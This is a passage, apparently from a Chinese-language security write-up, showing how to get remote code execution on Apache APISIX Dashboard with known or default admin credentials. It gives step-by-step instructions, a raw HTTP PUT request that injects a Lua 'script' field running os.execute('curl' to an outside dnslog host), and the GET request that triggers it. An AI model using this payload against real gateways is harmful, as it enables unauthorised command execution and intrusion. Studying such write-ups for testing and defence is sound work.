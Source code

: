 ## 授权`getshell`

已知面板登录账户密码或者存在默认弱口令的情况下，可直接登录后台。登录之后做如下几步操作即可实现`RCE`:

- 点击上游选项， 创建上游服务，指向`docker`内开启的`grafana`服务

![image-20220307165815344](https://gitee.com/greetdawn/blogImages/raw/master/img/202203071658431.png)

- 点击路由选项，创建路由条目，勾选上级创建的上游服务条目即可

![image-20220307170134309](https://gitee.com/greetdawn/blogImages/raw/master/img/202203071701389.png)

![image-20220307170158149](https://gitee.com/greetdawn/blogImages/raw/master/img/202203071701232.png)

- 创建完成后，点击创建路由条目中的配置按钮，直接下一步，到提交按钮时抓包

![image-20220307170422313](https://gitee.com/greetdawn/blogImages/raw/master/img/202203071704405.png)

![image-20220307170507093](https://gitee.com/greetdawn/blogImages/raw/master/img/202203071705204.png)

- 抓包后在`POST`数据中增加`script`字段，修改数据包如下：

```shell
PUT /apisix/admin/routes/397811506642682559 HTTP/1.1
Host: 192.168.32.132:9000
Content-Length: 199
Accept: application/json
Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2NDY2NDY3MjksImlhdCI6MTY0NjY0MzEyOSwic3ViIjoiYWRtaW4ifQ.8CFVuSsKsh3Lp2h5N0hr1De3LL-cEcxer0Pin779HmY
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.32.132:9000
Referer: http://192.168.32.132:9000/routes/397811506642682559/edit
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _dd_s=logs=1&id=46e06da4-1bc1-4039-8174-c51ab13978ba&created=1646642720053&expire=1646644798248
Connection: close

{"uris":["/greetdawnrce"],"methods":["GET","POST","PUT","DELETE","PATCH","HEAD","OPTIONS","CONNECT","TRACE"],"priority":0,"name":"greetdawn","status":1,"labels":{},"script": "os.execute('curl 74woda.dnslog.cn')","upstream_id":"397811130833044159"}
```

- 创建完成后，请求apisix接口，触发命令执行

```shell
GET /greetdawnrce HTTP/1.1
Host: 192.168.32.132:9080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _dd_s=logs=1&id=77bc9c2d-e870-42a3-9c7e-1010d1ca7b16&created=1646648978262&expire=1646652385662
Connection: close
```


[官方文档]: https://apisix.apache.org/docs/apisix/architecture-design/script/